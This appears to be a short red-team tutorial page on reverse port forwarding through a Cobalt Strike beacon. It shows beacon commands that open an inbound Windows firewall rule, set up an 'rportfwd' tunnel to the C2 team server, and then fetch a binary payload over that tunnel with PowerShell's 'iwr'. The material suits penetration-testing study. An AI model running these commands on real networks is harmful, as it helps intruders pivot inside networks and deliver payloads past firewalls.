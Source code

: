 # Reverse Port Forwarding



## Introduction

Reverse Port Forwarding allows users to access systems behind a firewall from outsiside. It works by redirecting traffic from a remote server's port to a local machine port.

<mark style="color:red;">**NOTE**</mark>: When the Windows firewall is enabled, it will prompt the user with a UAC when an application attempts to listen on a port that is not explicitly allowed.

We must create an allow rule before running the reverse port. forward

## Create Firewall rule

<pre><code><strong>// Create firewall rule
</strong><strong>beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound 
</strong>-Protocol TCP -Action Allow -LocalPort 8080

// Delete firewall rule
beacon> powershell Remove-NetFirewallRule -DisplayName "8080-In"
</code></pre>

## Cobalt Strike

Any traffic hitting this port will be tunnelled back to the team server over the C2 channel.

```
beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```

Using reverse port forward

<pre><code><strong>PS> iwr -Uri http://192.168.1.124:8080/0.bin
</strong>
StatusCode        : 200
</code></pre>
